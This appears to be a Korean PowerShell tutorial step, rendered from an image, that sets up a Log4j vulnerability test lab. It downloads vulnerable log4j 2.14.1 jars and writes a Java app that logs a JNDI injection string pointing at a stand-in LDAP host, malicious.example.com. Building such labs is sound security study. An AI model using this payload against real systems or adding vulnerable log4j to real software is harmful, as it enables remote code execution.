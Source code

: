 \# 취약한 버전 다운로드

Invoke-WebRequest -Uri $log4jVulnUrl -OutFile "$workDir\\lib\\log4j-core-2.14.1.jar"

Invoke-WebRequest -Uri $log4jApiUrl -OutFile "$workDir\\lib\\log4j-api-2.14.1.jar"



Write-Host "취약한 log4j 라이브러리 다운로드 완료!" -ForegroundColor Green



###### **3단계: 취약한 Java 애플리케이션 작성**

\# Java 소스 파일 생성

$javaSource = @"

import org.apache.logging.log4j.LogManager;

import org.apache.logging.log4j.Logger;



public class VulnerableApp {

    private static final Logger logger = LogManager.getLogger(VulnerableApp.class);

 

    public static void main(String\[] args) {

        System.out.println("=== Log4j 취약점 테스트 애플리케이션 ===");

 

        // 일반 로그

        logger.info("애플리케이션 시작");

 

        // 취약한 입력 (실제 공격 코드는 아님)

        String userInput = "`${jndi:ldap://malicious.example.com:1389/payload}";

        logger.info("사용자 입력: " + userInput);

 

        // 시스템 정보 로깅

        logger.info("Java 버전: " + System.getProperty("java.version"));

        logger.info("OS: " + System.getProperty("os.name"));

 

        System.out.println("로그 출력 완료. 로그 파일을 확인하세요.");

    }

}

"@



\# 소스 파일 저장

$javaSource | Out-File -FilePath "$workDir\\VulnerableApp.java" -Encoding UTF8
